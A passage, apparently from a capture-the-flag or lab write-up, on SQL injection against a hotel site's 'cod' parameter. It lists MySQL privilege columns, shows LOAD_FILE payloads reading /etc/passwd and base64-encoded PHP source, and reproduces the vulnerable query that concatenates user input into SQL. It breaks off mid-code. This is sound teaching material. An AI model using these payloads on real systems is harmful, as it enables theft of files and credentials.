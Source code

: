     db:User 
    db:Select_priv 
    db:Insert_priv 
    db:Update_priv
    db:Delete_priv 
    db:Create_priv 
    db:Drop_priv 
    db:Grant_priv 
    db:References_priv 
    db:Index_priv 
    db:Alter_priv 
    db:Create_tmp_table_priv 
    db:Lock_tables_priv 
    db:Create_view_priv 
    db:Show_view_priv
    db:Create_routine_priv 
    db:Alter_routine_priv 
    db:Execute_priv 
    db:Event_priv
    db:Trigger_priv 
    event:db 
    event:name 
    event:body 
    event:definer 
    event:execute_at 
    event:interval_value 
    event:interval_field 
    event:created 
    event:modified 
    event:last_executed 
    event:starts 
    ```
    
    - Find Table user:
    

Operator - [LOAD_FILE](https://www.w3resource.com/mysql/string-functions/mysql-load_file-function.php)

We can read files on the system.

- `LOAD_FILE('/etc/passwd')`
- Read room.php and conection.php to find infos of the cod parameter and the 
User and Password für phpMyAdmin.
    
    Info: *We need to encode the PhP file with base64 to read it !*
    
    ### room.php
    
    - `TO_base64(LOAD_FILE('/var/www/html/room.php'))`
        
        We see the Function for the cod Parameter.
        
        ```php
        if($_GET['cod']){
           include("connection.php");
            include("roomobj.php");
            $result=$connection->query("select * from room where cod=".$_GET['cod']);
            $line=mysqli_fetch_array($result);
            $room=new Room();
            $room->cod=$line['cod'];
            $room->name=$line['name'];
            $room->price=$line['price'];
            $room->star=$line['star'];
            $room->image=$line['image'];
            $room->mini=$line['mini'];
            $room->descrip=$line['descrip'];